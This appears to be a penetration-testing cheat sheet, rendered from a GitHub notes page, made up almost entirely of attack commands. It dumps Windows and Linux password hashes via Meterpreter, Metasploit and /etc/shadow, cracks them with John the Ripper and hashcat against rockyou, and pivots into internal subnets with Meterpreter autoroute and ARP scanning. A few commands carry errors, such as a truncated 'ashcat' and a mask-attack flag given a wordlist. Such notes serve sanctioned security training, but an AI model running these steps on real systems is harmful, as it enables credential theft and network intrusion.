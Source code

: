 **Dumping & Cracking**



**Windows**

```
hashdump

# JohnTheRipper
john --list=formats | grep NT
john --format=NT hashes.txt

gzip -d /usr/share/wordlists/rockyou.txt.gz
john <Hash_Password-File> --wordlist=/usr/share/wordlists/rockyou.txt # To crack the password from your previous output (hashdump,shadow file )
john --format=NT win_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

john -wordlist /usr/share/wordlists/rockyou.txt crack.hash
john -wordlist /usr/share/wordlists/rockyou.txt -users users.txt test.hash

#this is another way to crack passwords (that requires shadow file with passwd file)
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 -a 0 -o found.txt --remove crack.hash rockyou-10.txt
```

**Linux**

```
cat /etc/shadow

# Metasploit
use post/linux/gather/hashdump

john --format=sha512crypt linux.hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
john -wordlist /usr/share/wordlists/rockyou.txt crack.hash
john -wordlist /usr/share/wordlists/rockyou.txt -users users.txt test.hash

# Hashcat
hashcat --help | grep 1800
hashcat -a 3 -m 1800 linux.hashes.txt /usr/share/wordlists/rockyou.txt
ashcat -m 1000 -a 0 -o found.txt --remove crack.hash rockyou-10.txt
```

**Pivoting**



```
# Checking Routes
ip route    # Checking defined routes in linux
route       # Checking defined routes in linux
route print     # Checking defined routes in windows

# Adding Manual Routes
ip route add <subnet> via <gateway or router address>
# for example:
ip route add 192.168.222.0/24 via 10.172.24.1   # Here 10.172.24.1 is the address of the gateway for subnet 192.168.222.0/24

# Meterpreter on Target1
run autoroute -s <TARGET1_SUBNET_NETWORK>
run autoroute -p    # show active route table
run arp_scanner -r <TARGET1_SUBNET_NETWORK>

```